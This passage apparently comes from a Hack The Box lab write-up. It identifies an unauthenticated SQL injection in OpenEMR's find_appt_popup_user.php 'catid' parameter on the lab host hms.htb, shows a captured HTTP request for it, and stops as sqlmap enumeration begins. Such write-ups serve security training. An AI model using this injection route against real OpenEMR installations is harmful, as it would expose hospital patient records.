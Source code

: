 ![](images/hms-patient-login.png)

The Hospital Management System is available and we can see the patient portal login page. This screen also indicates that this is `OpenEMR` software, which, after a little research, looks to be vulnerable to a [SQL injection attack](https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf). Page 8 has a lot of detail on the attack we will use.

The vulnerable URL is `http://hms.htb/portal/find_appt_popup_user.php?catid=1` and by adding a comment quotation mark to the `catid` parameter, we can add unsanitized input without authentication. Let's capture a request to this URL with Burp Suite and save it to a file called `portal.req`.

```
GET /portal/find_appt_popup_user.php?catid=1 HTTP/1.1
Host: hms.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: OpenEMR=d3jlli8duq6uv54u0m3aeqj3p4; PHPSESSID=tnhhjq3o1mlh11se0aab74nclv
Upgrade-Insecure-Requests: 1
DNT: 1
Cache-Control: max-age=0
```

Next we will use this request with `sqlmap` to enumerate the available databases.
